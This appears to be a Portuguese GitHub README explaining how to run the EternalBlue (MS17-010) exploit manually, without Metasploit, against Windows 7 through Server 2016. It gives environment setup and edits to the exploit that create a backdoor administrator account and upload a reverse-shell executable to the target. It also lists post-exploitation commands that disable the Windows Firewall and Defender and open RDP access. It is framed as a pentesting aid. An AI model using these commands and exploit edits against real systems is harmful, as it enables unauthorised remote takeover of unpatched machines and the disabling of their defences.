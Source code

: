 # Exploiting Windows 7, 8.1, 2008 R2, 2012 R2, 2016 R2, 2016 Server etc Com Eternalblue SEM METASPLOIT (MS17-010) (CVE 2017-0144)

Script que explora manualmente a vulnerabilidade MS17-010 (CVE 2017-0144 ) e funciona nos sistemas: Windows 7 / 8.1 / 2008 R2 /2012 R2 / 2016 R2 / 2016 Server

**Exploit tirado do exploit-db - [42315](https://www.exploit-db.com/exploits/42315])**

**Testado no Windows 2016 Server**

Criei esse respositório pois quando precisei, tive dificuldade para executar o exploit (baixar depedências) e entender o código, sendo assim decidi criar esse repositório para facilitar o pentest caso alguém se depare com o mesmo problema que eu

## Preparando o ambiente para executar o exploit

Necessário python2 (python2.7) 
```bash
$ sudo apt update
$ sudo apt upgrade
$ sudo apt install python2.7
```
Necessário pip2
```bash
$ curl https://bootstrap.pypa.io/pip/2.7/get-pip.py -o get-pip.py;
$ python2 get-pip.py;
$ rm get-pip.py;
```
Baixando pacotes necessários
```bash
$ pip2 install --upgrade setuptools;
$ pip2 install impacket==0.9.22
```

## Alterações no exploit
A lógica é usar a função **smb_send_file** para enviar um executável de shell reversa, e a função **service_exec** para executar o código. 
Porém devido ao Windows Defender não da para realizar isso diretamente. 

*A função **service_exec** (linha 923) é onde se localiza o comando que será executado como é mostrado abaixo*
*A função **smb_send_file** (linha 922) envia um arquivo local para a máquina alvo*


- Alterações para criar um usuário com acesso de Autoridade
```python 
service_exec(conn, r'cmd /c net user pentester Pentester123 /add') # linha - 923
# criando o usuário 'pentester' com a senha 'Pentester123'
```
```python 
service_exec(conn, r'cmd /c net localgroup administrators pentester /add') # linha - 923
# Adicionando o usuário 'pentester' ao grupo de administradores
```
- Alteração para enviar um arquivo local para a máquina alvo
```shell
smb_send_file(smbConn, '/path_to_your_filel/eternal-blue.exe', 'C', '/eternal-blue.exe') # Arquivo é inserido na raiz (c:\) neste exemplo
```
 
Caso você queira tentar ganhar uma shell reversa vou deixar os comandos necessários abaixo

## Executando o Exploit
```bash
$ python2.7 exploit.py <target ip>
```

## Comandos úteis do Windows para pentest
- Comando para desligar o Firewall do Windows
```shell
netsh advfirewall set currentprofile state off
```
- Comando para desabilitar o Windows Defender
```shell
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f
```
- Comando para habilitar o Windows Defender
```shell
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 0 /f
```

- Comando para habilitar a porta 3389 no firewall
```shell
netsh advfirewall firewall add rule name="rpd" protocol=TCP dir=in localport=3389 action=allow
```
- Comando para habilitar o RDP no Windows
```shell
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```
- Comando para desabilitar o RDP no Windows
```shell
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
```
